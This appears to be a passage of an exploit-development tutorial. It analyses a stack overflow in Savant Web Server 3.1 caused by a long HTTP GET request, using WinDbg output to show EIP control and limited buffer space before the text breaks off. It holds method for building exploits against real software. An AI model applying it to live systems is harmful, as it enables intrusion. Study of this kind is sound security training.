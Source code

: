 # Our buffer is not always in a predictable location

Normally, in the base stack overflows, after we overwrite EIP we see that the ESP register points to our controlled buffer, which would store the shellcode. Then, we find a JMP ESP to jump to our shellcode.
However, there are some scenarios in which our shellcode is not directly accessible via ESP, or in a predictable location in memory.
Sometimes, it is possible to store a payload **somewhere else in the address space of the process,** and point to such address by "searching" for our payload in the code.
Let's see how to do it.
First, we have the Savant Web Server 3.1, which has a vulnerability that allows us overwriting EIP via a large HTTP GET buffer:
```c
0:011> g
(c3c.18f0): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=ffffffff ebx=01775868 ecx=e319c4c3 edx=00000000 esi=01775868 edi=0041703c
eip=41414141 esp=02d2ea1c ebp=41414141 iopl=0         nv up ei pl nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010202
41414141 ??              ???¡
```

We have managed to overwrite the EIP.
However, let's inspect ESP to see how much bytes do we have stored:
```C
0:004> dd esp L5
02d2ea1c  00414141 02d2ea74 0041703c 01775868
02d2ea2c  01775868
```

Only three bytes have been available. The fourth byte is a null terminator, which means that our payload probably is stored as a string. Therefore, we cannot put our shellcode as we would in a vanilla stack overflow.
Whenever we deal with a limited amount of space, we should try to increase the size of the buffer to see if that results in more space for our overflow.

However, if the buffer size is increased, even by one byte, **a different crash where we do not gain control over the instruction pointer happens:**
```c
0:009> g
(c98.664): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
*** WARNING: Unable to verify checksum for C:\Savant\Savant.exe
eax=41414141 ebx=01745868 ecx=005a0000 edx=005a0000 esi=01745868 edi=0041703c
eip=0040c05f esp=04f6e6a8 ebp=04f6ea14 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010246
```
Note that putting a big buffer always will make things go wrong! Start by a little buffer and keep incrementing it.

Let's go back to the scenario where we control EIP.
Let's analyze if any register stores our payload, so we can maybe perform a JMP REGISTER operation. An example with EBX:
```c
0:004> dds ebx
00505868  00001910
0050586c  000003e8
00505870  00000000
```
